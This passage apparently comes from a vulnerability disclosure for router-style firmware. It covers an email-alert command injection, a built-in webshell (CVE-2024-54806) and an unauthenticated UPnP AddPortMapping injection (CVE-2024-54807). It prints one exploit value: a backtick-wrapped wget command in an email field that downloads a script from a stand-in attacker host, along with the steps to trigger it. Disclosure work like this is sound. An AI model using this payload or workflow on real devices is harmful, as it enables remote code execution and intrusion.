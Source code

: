 **Summary.** Authenticated **command injection** in `/bin/httpd` email alerts flow. `email_address` NVRAM is placed into:
```
/bin/sendmail %s -f %s &
```
No sanitization; **backtick** injection allows arbitrary command execution, triggerable on demand via `/send_log.cgi`.

![](/assets/posts/2025-03-25/7.png)

**Exploit example.**
```
`wget http://ATTACKER/m.sh -P /tmp/`@example.com
```
Workflow: set malicious email → enable alerts → call `/send_log.cgi`.

---

<a name="cve-2024-54806"></a>
### Authenticated Webshell (CVE-2024-54806)

**Summary.** A rudimentary **webshell** exists at `cmd.cgi` (0x15c50). Execution is **authenticated** (tied to `post.cgi`). Output formatting is poor but functional.

![](/assets/posts/2025-03-25/8.png)

---

<a name="cve-2024-54807"></a>
### AddPortMapping Command Injection (CVE-2024-54807)

**Summary.** **Unauthenticated** command injection in UPnP `AddPortMapping` (0x2b530) of `/upnp/control/WANIPConnection1`. The **`NewInternalClient`** argument is concatenated into an `iptables` command that flows to `system()` (0x2d3bc). **WAN‑facing**.

![](/assets/posts/2025-03-25/9.png)
